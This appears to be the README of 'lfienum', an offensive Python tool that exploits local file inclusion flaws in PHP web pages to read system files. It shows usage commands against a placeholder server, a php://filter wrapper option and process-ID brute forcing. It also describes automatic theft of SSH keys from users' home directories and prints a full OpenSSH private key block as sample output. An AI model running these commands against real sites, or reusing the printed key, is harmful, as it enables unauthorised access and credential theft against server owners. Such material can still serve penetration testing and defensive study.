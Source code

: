 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

```
lfiǝnum ~by 0bfxgh0st*

Usage python3 lfienum <url> <option>

Options:

       --pid          Bruteforce 999 process id
       --wrapper      (php://filter/convert.base64-encode/resource=)

Examples:
           python3 lfienum "http://ghost.server/index.php?page="
           python3 lfienum "http://ghost.server/index.php?page=" --pid
           python3 lfienum "http://ghost.server/index.php?page=" --wrapper index.php
```

Auto id_rsa key extraction from /etc/passwd, check `def ID_RSA():` function  
Output example:  
```
...

[SSH ID_RSA KEY]
ghost key from http://ghost.server/index.php?file=/home/ghost/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDRScoSFO
Tk3d1A0K1kYCQzAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQC5SLRm3gjC
mXU6nHisg7VT0UxRTuoyL9IkiV9xPjdx44fTujyqsmjS+VjKyhGiTw+UB3jDZr81jCv4DO
WiwRc+A7PxnBA0qP1UU9OxuVaSgetSHCbjTNU4UlCPDBo2iZV2gw17CzuwGqa3Yz/UWoUV
KxKU+vMwO+evzUkL3w1LoAWKvWG0VfAdRh4rqXKsNDHoTdWBWLvLCx7PkBH8fF6+OIM+Lq
NM1tVQYuSHpAoNbj5bnGwLEt4Z8GqyZELdaNt8lc7XdO8YbAmPN/boyEZd9KRO/FdeuayE
yRQygxpz25goYGuj+Gdg3uQFEScDtYyUKwpsUsNDv1q0KOLWntT+5I8bHwME6ozqBBRba9
5K7kbCxLLwHxvN7E+dMFxH2e1J3uax1d/h5D1JNrJpi0KsFeycPL6Hr2StfNORRhdXEKGd
HudCjvhjRx27rAEwVBj/gcTS5Esu5sd0R5ToXb1ukT/lFhXjsW3qHYHexjbZQ7kSJPxJrg
KhOPkQ0YeBYzJzS9ffFjIZdTUBcLuE518rNKnKezPl7H9TNNnuHRgL/XycbrfUVWQVS+yo
aW6jjhykuO43zeiTNe/tyJUkBlJu5vs4xM1aDMSQW6fn2iVDrRbxY0lzq11fT59RbIQXzv
fL9B4SSMC6ccKVJlyYNLTZVpPyOonFvy6hThflpkhA/mGVgMvDyiwxLx/5+odvRRD7Gg0w
vyRsUY5/8RfNIZelJ731cwccRbbNfUmUbOcSG0yPMrBdGUldSwiqI9XyswM/goLzIKPC/7
UKQmKZ8oy7B5utVOW5aWqZCFe+shV8qPvaS/4bUaykQMdcFclbD22Pinwx6X6DHnGcmRtF
m+1QuC+jT23hAtJbqsafYQ61sUxkAQUExKdBQ+l7l6a0OZhG+L28P7xuQ7wwhhX6PpeKmD
HO1fvy1tu3wuQ9MAHGqMP+W2CJMVt3W4SvMasLIklPWDjy5iaii4WJkijIHopldyyL7wJ7
QRcxfhQ+4r+6virvZEo/2CkWtIhi8IcyPx6bQA54iu9eKkZE1gOdyDJogIrvkv+787rAlL
skyX2Q==
-----END OPENSSH PRIVATE KEY-----
```
Internal wordlist from sources:  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt  
